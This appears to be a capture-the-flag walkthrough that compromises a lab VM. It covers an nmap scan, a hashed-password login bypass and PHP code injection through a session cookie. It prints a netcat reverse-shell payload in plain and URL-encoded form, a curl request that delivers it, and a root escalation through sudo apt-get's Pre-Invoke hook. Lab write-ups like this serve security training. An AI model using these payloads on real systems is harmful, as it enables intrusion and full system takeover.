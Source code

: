 
Discovery

Scanning
Nmap Scan results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Starting Nmap 7.70 ( https://nmap.org ) at 2019-10-02 03:46 EDT
Nmap scan report for 192.168.56.103
Host is up (0.00038s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Login
MAC Address: 08:00:27:EB:0A:11 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.38 ms 192.168.56.103

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.48 seconds
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Only port 80 open
Browsing to port 80 :  http://192.168.56.103


There's a login page
Trying admin : admin as username and password credentials we get a error stating:
<p>Password hash is not correct, make sure to hash it before submit.</p>



We try to encode it with different types of hashed: MD5, SHA1, SHA256. This later one worked submitting a SHA256 hash of admin, instead of the password

admin : 8C6976E5B5410415BDE908BD4DEE15DFB167A9C873FC4BB8A81F6F2AB448A918

Using this credentials we are able to login to the application.
The admin panel has just a Search button for retrieving files from the server.

We are unable to retrieve the restricted files, but we have access to /var/lib/php/sessions/

we retrieve the file containing information about the current session of the user admin



We try to manipulate the user_pref parameter in the cookie.
We insert a small php file that executes ifconfig to test code execution.



Reverse shell

Sending the following php : <?php system("nc 192.168.56.102 1234 -e /bin/bash")?> 
Encoded in URL format : %3c%3f%70%68%70%20%73%79%73%74%65%6d%28%22%6e%63%20%31%39%32%2e%31%36%38%2e%35%36%2e%31%30%32%20%31%32%33%34%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68%22%29%3f%3e

We resubmit the request

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
curl -i -s -k  -X $'POST' \
    -H $'Host: 192.168.56.103' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64;$
    -b $'PHPSESSID=4lnshplsfqb65oe3ihtnhqiqs0; user_pref=%3c%3f%70%68%70%20%73%$
    --data-binary $'search=%2Fvar%2Flib%2Fphp%2Fsessions%2Fsess_4lnshplsfqb65oe$
    $'http://192.168.56.103/home.php'

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Started listener on Kali at port 1234 : 



Upon making the request we get a reverse shell on kali linux


Getting ROOT


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.103] 35310
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/apt-get

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~




~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@ubuntu:/var/www/html$ sudo -l
Matching Defaults entries for www-data on ubuntu:
     env_reset, mail_badpass,
     secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User www-data may run the following commands on ubuntu:
     (root) NOPASSWD: /usr/bin/apt-get
 www-data@ubuntu:/var/www/html$sudo apt-get update -o APT::Update::Pre-Invoke::= "/bin/bash -i"
 root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


